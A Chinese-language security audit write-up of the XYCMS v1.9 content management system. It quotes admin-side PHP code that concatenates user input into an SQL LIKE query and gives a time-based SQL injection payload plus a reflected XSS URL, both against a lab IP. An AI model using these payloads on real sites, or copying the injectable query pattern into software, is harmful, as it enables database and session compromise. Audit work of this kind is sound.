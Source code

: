 # XYCMS v1.9 代码审计

## 环境准备

- [源码下载地址](http://down.chinaz.com/soft/37797.htm)
- phpstudy+phpstorm+
- xray+burpsuite

## 审计流程

前台黑盒审计了一下，功能较少，只有个留言板。先分析后台漏洞吧。

### SQL注入1
- `http://10.30.1.49/system/manage_book.php?act=search`
```php
<?php
require 'include/session.php';
require 'include/globle.inc.php';
require XYCMS_IN . 'Libs/Class/page.class.php'; 
$x_m=$_GET['act'];
$x_keys=$_POST['keyword'];
if($x_m=='search' and $x_keys!=""){
	$xy_sql="select * from xycms_book where b_title like '%$x_keys%' order by id desc,c_date desc";
}else{
	$xy_sql="select * from xycms_book order by id desc,c_date desc";
}
$result=$db->query($xy_sql); 
?>
```
- 关键代码:
```
$xy_sql="select * from xycms_book where b_title like '%$x_keys%' order by id desc,c_date desc";
```

这里用了SQL通配符的`%`,与like一起使用，替代0个或者多个字符

这里可以用延时注入:
```
keyword=123'and(select*from(select+sleep(0))a/**/union/**/select+1)='
```

![image](./img/xycms1.png)

### XSS反射型

```
http://10.30.1.49/system/edit_user.php?id=\%22%3E%3CsCrIpT%3Ealert(1)%3C/sCrIpT%3E
```
